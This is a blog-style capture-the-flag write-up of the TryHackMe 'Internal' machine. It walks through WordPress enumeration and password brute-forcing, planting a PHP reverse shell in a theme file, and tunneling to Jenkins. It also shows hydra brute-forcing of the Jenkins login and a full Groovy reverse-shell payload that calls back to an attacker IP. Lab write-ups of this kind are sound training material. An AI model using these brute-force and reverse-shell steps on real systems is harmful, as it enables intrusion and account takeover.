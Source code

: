 ```yaml
---
layout: post
title: Internal
date: '2024-02-09 14:27:33 +0100'
categories: [CTF-WRITEUPS, TryHackMe - Internal]
tags: [tryhackme]
---
```



*Penetration Testing Challenge*

## Enumeration

```bash
 nmap -sC -sV -T4 -oN scan -vvv 10.10.14.116
```

<img src="/../assets/internal_1.png" alt="internal">

Let's explore HTTP.

### HTTP

#### Directory brute forcing

```bash
dirsearch -u $IP/blog -e*
```


The website uses wordpress as a cms.

I used `wpscan` to enumerate further.

```bash
wpscan --url http://internal.thm/blog  --enumerate vp,u --verbose -o wpscan.log 
```

<img src="/../assets/internal_2.png" alt="internal">

Username `admin` found!

In the results, something interesting was mentioned:
```
[+] XML-RPC seems to be enabled:
```
It means we can bruteforce login without a rate limit !!

```bash
wpscan --url http://internal.thm/blog  -U admin -P /usr/share/wordlists/rockyou.txt
```

<img src="/../assets/internal_3.png" alt="internal">

We found the password !!

| admin:my2boys

#### Exploiting wordpress

<img src="/../assets/internal_4.png" alt="internal">

We can exploit the fact a wordpress theme has multiple `php` pages that we can edit.

Let's head towards `Appearance > Theme Editor > index.php`

And modify the `index.php` to contain our reverse shell.

You can grab one from here : [reverse_shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
<img src="/../assets/internal_5.png" alt="internal">

Next, we setup a `netcat` listener on our host machine.
```bash
nc -nlvp 1337
```

And now let's visit the index page : [http://internal.thm/blog/index.php](http://internal.thm/blog/index.php)

<img src="/../assets/internal_6.png" alt="internal">

Nice, once I got a reverse shell, I first stabilized it.

```bash
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@internal:/$ export TERM=xterm
export TERM=xterm
```

Hit CTRL + Z, then :

```bash
stty raw -echo; fg
```

Now my shell is awesome !!!

## Privilege Escalation

I first run `ss` to enumerate local services.

<img src="/../assets/internal_8.png" alt="internal">

I fell down a rabbit hole trying to enumerate the mysql database on port `3306`.

I found the database credentials in `/var/www/html/wordpress/wp-config.php` but that was a dead end.

```bash
www-data@internal:/var/www/html/wordpress$ cat wp-config.php
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );
```
```bash
mysql -h 127.0.0.1 -u wordpress -p
password> wordpress123
mysql>
mysql> show databases;
mysql> use wordpress;
mysql> show tables;
mysql> select * from wp_users;
mysql> select user_login, user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BOFWK.UcwNR/tV/nZZvSA6j3bz/WIp/ |
+------------+------------------------------------+
```


I then moved to try something else.


After some manual enumeration, i found an interesting file in /opt
```bash
www-data@internal:/opt$ cat wp-save.txt 
```

<img src="/../assets/internal_9.png" alt="internal">

|aubreanna:bubb13guM!@#123

The note is mentionning a user called `aubreanna`, which exists in the machine.

I tried to connect to ssh using those credentials and it worked.

### User flag
<img src="/../assets/internal_10.png" alt="internal">

### SSH Tunneling

An interesting note is in the current home directory : `jenkins.txt`.

Displaying its content, we get this message:
```
Internal Jenkins service is running on 172.17.0.2:8080
```

OKey, we have jenkins service running in a docker container, we can use ssh tunneling to bind that address to our local machine, and access it.

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/internal]
└─$ ssh -L 9999:172.17.0.2:8080 aubreanna@$IP
```

<img src="/../assets/internal_11.png" alt="internal">


Visiting localhost:9999 on our local machine results in a jenkins page, Nice!

<img src="/../assets/internal_12.png" alt="internal">


### Root flag
First, I set up a brute force attack before enumerating any further

```bash
hydra -s 9999 -l admin -P /usr/share/wordlists/rockyou.txt  -I -v -f 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```


Well, lucky enough, we got the password after a few attemps.

<img src="/../assets/internal_13.png" alt="internal">


We can easily get a reverse shell using the script console in [http://localhost:9999/script](http://localhost:9999/script)

I first tried to `cat /etc/passwd` as a proof of concept

```groovy
def cmd = "cat /etc/passwd".execute();
println("${cmd.text}");
```

<img src="/../assets/internal_17.png" alt="internal">


Nice, let's try now to get a reverse shell.

```bash
String host="10.11.60.242";
int port=1337;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

<img src="/../assets/internal_14.png" alt="internal">

Now we are inside the container !!

After a bit of enumeration again, I found a note in `/opt`


<img src="/../assets/internal_15.png" alt="internal">

Well that was easy...

|root:tr0ub13guM!@#123

Going back to the machine, let's try to connect using the credentials we found.

<img src="/../assets/internal_16.png" alt="internal">

MACHINE PWNED :D

I hope you enjoyed :)